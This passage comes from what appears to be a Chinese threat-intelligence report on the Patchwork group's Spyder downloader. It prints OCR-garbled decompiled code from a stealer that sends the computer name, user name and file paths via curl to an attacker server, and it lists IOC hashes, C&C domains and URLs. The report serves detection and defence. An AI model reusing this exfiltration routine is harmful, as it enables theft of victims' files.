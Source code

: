 根据RstMwService.exe 释放的 MsEngLU.dll可以关联到另一个相同的文件窃密软件（MD5：339ce8f7b5f253f2397fc117f6503f1f），回传文件信息的 URL 为"hxxp://89.147.109.143/lightway/hex.php"。  

if（v14） sub_10002CB0(v19,&v18, "compnane" 4,dword_1014E8D0,17); sub_10002CB0(v19,&v18，1, "username", 4, dword_1014E8cc, 17); V6 $=$ lpFileName; $v7=$ lstrlenw(LpFileName); lpstringa $=$ (WCHAR\*)sub_10001040(lpFileName,2\*v7); sub_10002cB0(v19,&v18,1,“filepath",4,lpStringa,17); FileNamew $=$ PathFindFileNameW(v6); v9 $=$ lstrlenW(FileNameW); V10 $=$ (void\*)sub_10001040（FileNameW,2\*v9); sub_10002CB0（v19,&v18,1,“KMvBwHSvKAVckJhn",12,v4, 13,v15,16,v10,14,"application/octet-strean",17); sub_10007380(v14,10002,(char)"http://89.147.109.143/lightway/hex.php"); sub_10007380(v14,47,1); sub_10007380(v14, 10024,v19[0]); v11 =sub_10001F40(v14); if（v11) V13 $=$ sub_10003510(v11); V12 $\l=$ sub_10104CDA(2); sub_10001010(v12,"curl_easy_perform() failed:%s\n",v13); sub_10001EC0(v14); sub_10002CD0(v19[0]); sub_101075D4(lpStringa); sub_101075D4(V10);  

释放该窃密软件的样本（MD5：e19e53371090b6bd0e1d3c33523ad665）同样将其保存为INTERNET_CACHE 目录下的 MsEngLU.dIl 文件，并调用其导出函数 DriveBackup。  

![](https://cdn-mineru.openxlab.org.cn/extract/75eef432-8dd2-4be9-b9e5-abcf2e14a2ea/90c3052cf6cec98897f15409798938763334d63e17a3b82363928c5ff7743084.jpg)  

# 1总结  

Spyder的再度更新表明该下载器已经成为摩诃草组织的一款常用工具。两款窃密组件分开下载，并执行不同的功能，体现出攻击者武器库的模块化结构。目前捕获到的后续组件功能为截屏和文件信息收集，很可能只是下发载荷种类的冰山一角，因为攻击者完全可以根据收集的信息有选择性地对高价值目标采取进一步行动。  

## ·防护建议  

奇安信威胁情报中心提醒广大用户，谨防钓鱼攻击，切勿打开社交媒体分享的来历不明的链接，不点击执行未知来源的邮件附件，不运行标题夸张的未知文件，不安装非正规途径来源的APP。做到及时备份重要文件，更新安装补丁。  

若需运行，安装来历不明的应用，可先通过奇安信威胁情报文件深度分析平台（https://sandbox.ti.qianxin.com/sandbox/page）进行判别。目前已支持包括Windows、安卓平台在内的多种  

格式文件深度分析。  

目前，基于奇安信威胁情报中心的威胁情报数据的全线产品，包括奇安信威胁情报平台（TIP）、天擎、天眼高级威胁检测系统、奇安信NGSOC、奇安信态势感知等，都已经支持对此类攻击的精确检测。  

#  

### MD5:  

689c91f532482aeff84c029be61f681a 887d76e305d1b2ac22a83a1418a9fc57 47b4ed92cfc369dd11861862d377ae26 0dc0816bd46f3fe696ed0a2f1b67cfa8 e8a9b75c5e41f6d4af9f32c11d0057cb 7a177ef0b1ce6f03fa424becfb9d37ac 85d0f615923af8196fa7d08ef1c68b64 e19e53371090b6bd0e1d3c33523ad665 c568d613ba74fd6cd5da730f6ce38626 339ce8f7b5f253f2397fc117f6503f1f  

C&C:   
onlinecsstutorials.com   
10p1.shop   
firebaseupdater.com   
93.95.230.16:80   
89.147.109.143:80   
URL:   
hxxp://onlinecsstutorials.com/soup/pencil.php   
hxxp://onlinecsstutorials.com/soup/download.php?mname $=$   
hxxp://onlinecsstutorials.com/soup/upsman.php   
hxxp://l0p1.shop/ares/pencil.php   
hxxp://10p1.shop/ares/download.php?mname $=$   
hxxp://firebaseupdater.com/gandalf/cane.php   
hxxp://firebaseupdater.com/gandalf/download.php?mname $=$   
hxxp://93.95.230.16/domcomtwit/hen.php   
hxxp://89.147.109.143/lightway/hex.php  
